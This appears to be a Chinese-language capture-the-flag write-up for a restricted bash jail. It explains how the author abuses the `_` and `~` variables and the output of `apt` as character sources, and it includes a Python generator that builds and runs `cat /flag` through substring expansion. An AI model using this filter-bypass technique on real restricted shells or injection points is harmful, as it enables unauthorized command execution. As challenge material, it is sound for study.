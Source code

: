 注意到原文中给的变量里面，至少存在两个环境规定的变量：`_`和`~`。本地起个docker测试一下，发现这两个分别是`input`和`/players`。我们考虑他能组成什么命令。我直接`ls /bin`，首先引入眼帘的就是`apt`，执行了一下，发现会吐一大坨东西，直接拿来构造任意字符串应该非常容易。因此我们直接构造`cat /flag`就行（造ls也完全没有问题）。

```python
import random

def safestr(v):
    if not "0" in str(v):
        return str(v)
    while True:
        va = random.randint(0,v+10) + v
        vb = va - v
        if "0" in str(va) or "0" in str(vb):
            continue
        return str(va) + "-" + str(vb)

def addchar(c,fr,inp,oup):
    assert c in fr
    k = fr.find(c)
    tmp = oup + "=$" + oup + "${" + inp + ":" + safestr(k) + ":1}\n"
    return tmp

cmd=""
cmd+="___=$_\n"
cmd+="____=~\n"
cmd+="__=\n"

c1="input"
c2="/players"

cmd+=addchar("a",c2,"____","__")
cmd+=addchar("p",c1,"___","__")
cmd+=addchar("t",c1,"___","__")

cmd+="___=`$__`\n"

c3="apt 2.4.13 (amd64) Usage: apt [options] command  apt is a commandline package manager and provides commands for searching and managing as well as querying information about packages. It provides the same functionality as the specialized APT tools, like apt-get and apt-cache, but enables options more suitable for interactive use by default.  Most used commands:   list - list packages based on package names   search - search in package descriptions   show - show package details   install - install packages   reinstall - reinstall packages   remove - remove packages   autoremove - Remove automatically all unused packages   update - update list of available packages   upgrade - upgrade the system by installing/upgrading packages   full-upgrade - upgrade the system by removing/installing/upgrading packages   edit-sources - edit the source information file   satisfy - satisfy dependency strings  See apt(8) for more information about the available commands. Configuration options and syntax is detailed in apt.conf(5). Information about how to configure sources can be found in sources.list(5). Package and version choices can be expressed via apt_preferences(5). Security details are available in apt-secure(8).                                         This APT has Super Cow Powers. "

cmd+="__=\n"
cmd+=addchar("c",c3,"___","__")
cmd+=addchar("a",c3,"___","__")
cmd+=addchar("t",c3,"___","__")
cmd+=addchar(" ",c3,"___","__")
cmd+=addchar("/",c3,"___","__")
cmd+=addchar("f",c3,"___","__")
cmd+=addchar("l",c3,"___","__")
cmd+=addchar("a",c3,"___","__")
cmd+=addchar("g",c3,"___","__")

cmd+="$__\n"

print(cmd)
```
